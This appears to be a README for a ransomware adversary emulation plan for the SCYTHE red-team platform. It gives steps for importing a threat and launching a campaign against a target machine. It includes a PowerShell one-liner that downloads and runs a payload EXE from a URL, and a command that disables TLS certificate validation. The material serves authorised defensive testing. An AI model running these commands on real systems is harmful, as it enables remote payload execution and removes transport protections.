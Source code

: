# Ransomware Top 10 TTPs Adversary Emulation Plan

This adversary emulation plan was created for a customer that asked "what are the top 10 TTPs used by Ransomware" and goes with this blog: 

To emulate:
1. Download and import the threat in JSON format to your SCYTHE instance
2. Download the Virtual File System (VFS) files under Ransomware/VFS
3. Upload the VFS files to your SCYTHE VFS in the following location: VFS:/shared/threats/Ransomware
4. Create a new campaign over HTTPS port tcp/443
5. Import from Existing Threat: Ransomware_Top_10
6. Launch Campaign
7. Click More Actions and copy the URL for the EXE. 
8. In the target system, run this PowerShell command with the respective URL to download and execute the payload: ```$myscriptblock={$url="URL of EXE";$wc=New-Object System.Net.WebClient;$output="C:\Users\Public\scythe_payload.exe";$wc.DownloadFile($url,$output);C:\Users\Public\scythe_payload.exe};Invoke-Command -ScriptBlock $myscriptblock;```

If you get a TLS certificate validation error, you can bypass with this PowerShell command:
```[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}```